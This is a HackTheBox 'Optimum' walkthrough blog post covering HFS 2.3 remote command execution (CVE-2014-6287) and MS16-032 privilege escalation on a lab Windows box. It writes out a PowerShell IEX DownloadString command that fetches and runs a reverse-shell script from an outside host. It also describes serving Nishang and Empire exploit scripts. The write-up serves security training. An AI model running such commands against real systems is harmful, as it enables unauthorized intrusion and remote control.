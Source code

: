 ```yaml
---
title: "HackTheBox - Optimum Writeup"
date: 2022-06-17
draft: false
tags: ["CVE-2014-6287", "CVE-2016-0099", "rce", "reverse-powershell", "httpfileserver", "empire-project", "windows-sysnative"]
htb: "HacktheBox"
windows: "Windows"
---
```


## Nmap
First, let’s scan the IP address by using the Nmap

```sql
# Nmap 7.92 scan initiated Fri Jun 10 19:25:32 2022 as: nmap -sC -sV -vv -p- --min-rate=10000 -oN nmap/optimum_all 10.10.10.8
Nmap scan report for 10.10.10.8
Host is up, received echo-reply ttl 127 (0.40s latency).
Scanned at 2022-06-10 19:25:32 +08 for 25s
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 127 HttpFileServer httpd 2.3
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: HFS /
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
|_http-server-header: HFS 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jun 10 19:25:57 2022 -- 1 IP address (1 host up) scanned in 24.94 seconds
```

Interesting, the only port open is `80` and the banner says `HttpFileServer/HFS 2.3`

## HFS (HttpFileServer)

> HTTP File Server, otherwise known as HFS, is a free web server specifically designed for publishing and sharing files.
> It's different from classic file sharing because it uses web technology to be more compatible with today's Internet.
> _resource: [wikipedia](https://en.wikipedia.org/wiki/HTTP_File_Server)_

I navigate to the `port 80` through the web browser. WOW! it's just a simple webpage and its also can search files,? I believed. Well, this box is really old by the time I'm writing this. Like always I'm asking google about this information and waiting for the result to come in.

![1](hfs-main-page.png)

### CVE-2014-6287
Upon searching on the internet. I found this `HFS` version is vulnerable to `RCE (remote command execution)` and got assigned to a [CVE-2014-6287](https://nvd.nist.gov/vuln/detail/CVE-2014-6287). I also found this [article](https://www.kb.cert.org/vuls/id/251276) with a payload sample.

> CVE description:
> The findMacroMarker function in parserLib.pas in Rejetto HTTP File Server (aks HFS or HttpFileServer) 2.3x before 2.3c allows remote attackers to execute arbitrary programs via a %00 sequence in a search action.

### Burpsuite
I already have the [payload sample](https://www.kb.cert.org/vuls/id/251276) and I'm gonna try it out with simple command. The command is `whoami`. First, I intercept the `search` endpoint with [burpsuite](https://portswigger.net/burp). Then, send the request through the repeater and put the payload in the search query. However, it didn't display any output from my `whoami` command. Then, I remembered about the `ping` command. So, I try to ping myself to see, if I get the connection through the box.

![1](burpsuite-search-ping.png)

![1](tcpdump-ping-tun0.png)

## Nishang: Invoke-PowerShellTcp.ps1

The command runs successfully, with this information, I'm gonna try to gain a foothold on the box with [nishang](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1) reverse shell script. Check this [blog](https://shafiqaiman.com/hackthebox-responder-writeup/#nishang-invoke-powershelltcpps1)  where I configure the reverse shell script.

First, I created a new directory called `www` and put the reverse shell script in the same directory. Then, I'm hosting the [python](https://www.python.org/downloads/) web server in port `80` and run the `nc` listener with `rlwrap` since this is a `Windows` machine. Back to the burpsuite, I use this [payload](https://shafiqaiman.com/hackthebox-responder-writeup/#nishang-invoke-powershelltcpps1), which is downloading the reverse shell script and executing it. `Don't forget the (dot) at the end`. 

![1](python3-server-and-nc-listening.png)

![1](burpsuite-with-powershell-reverse-shell.png)

![1](nc-catch-the-shell.png)

NICE!. Finally, I'm in as a `kostas` user. Since this is an old machine from [HacktheBox](https://app.hackthebox.com/), I'm gonna assume they are plenty of exploits on the internet waiting to be found. Well, I'm going to check this machine system with the `systeminfo` command first.

![1](run-the-systeminfo-command.png)

### MS16-032 : CVE-2016-0099

This is a `Windows Server 2012R2` version `6.3.9600 N/A Build 9600` and the architecture type is `64 bit`. Upon searching this version on the net. I realize this version is vulnerable to a lot of things. However, I'm gonna abuse the [Secondary Logon Service](https://googleprojectzero.blogspot.com/2016/03/exploiting-leaked-thread-handle.html) to gain the `SYSTEM` shell that is dubbed as [MS16-032](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-032) or [CVE-2016-0099](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-0099).

### EmpireProject: Invoke-MS16032.ps1

I manage to find this [exploit](https://www.exploit-db.com/exploits/39719) in the [exploit-db](https://www.exploit-db.com/). However, the exploit itself didn't work in my case because it's open the `cmd` through `GUI` and I don't have access to the `GUI` instance. Luckily, I found the [powershell exploit](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1) that allows me to privesc from the [EmpireProject](https://github.com/EmpireProject/Empire).

> Empire is a post-exploitation framework that includes a pure-PowerShell2.0 Windows agent, and a pure Python 2.6/2.7 Linux/OS X agent. It is the merge of the previous PowerShell Empire and Python EmPyre projects. <br>
> _resource: [EmpireProject github](https://github.com/EmpireProject/Empire)_

So, I'm gonna download it with the `wget` command. Then, edit the file by putting the **example** in the last line also edit the `URL` to point into my python server with another reverse shell called `yeet.ps1`

_Note: the example start with **Invoke-MS16-032**. However, the function is named **Invoke-MS16032**_

![1](download-ms16032-wget.png)

![1](edit-the-exploit-file-ms16032.png)

![1](put-at-the-last-line.png)

### Windows: sysnative

I tried a bunch of times to run this exploit but the result is nothing. This machine is `64` bit and also the exploit is tested on a `64` bit `2k12R2` server. Now, I'm dumbfounded. Then, I realize maybe the powershell itself running on another architecture. So, I [check](https://stackoverflow.com/questions/8588960/determine-if-current-powershell-process-is-32-bit-or-64-bit/8589649#8589649), and it's confirmed. The powershell is running on `32` bit.

![1](example-tested-exploit.png)

![1](check-the-arc-of-powershell-32-bit.png)

With quick googling, I found this [answer](https://stackoverflow.com/questions/19055924/how-to-launch-64-bit-powershell-from-32-bit-cmd-exe/19056011#19056011) on [stackoverflow](https://stackoverflow.com/). I need to run the powershell in the `sysnative` directory to get the `64` bit version. Well, I need to restart over again. So, back again to the burpsuite and put this as the payload. Then, catch the shell with `nc`.

```powershell
C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe "IEX(New-Object Net.WebClient).DownloadString('http://example.com/Invoke-PowerShellTcp.ps1')"
```

When I checked the powershell architecture indeed it is running on 	`64` bit. YES!!!

![1](check-the-arc-of-powershell-64-bit.png)

## Windows: Privilege Escalation

Now, I'm executing the [privesc exploit](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-MS16032.ps1) once again. My python server shows the request from the file called `Invoke-MS16032.ps1` followed with `yeet.ps1` and finally, I've got a shell as `system`.

![1](last-image.png)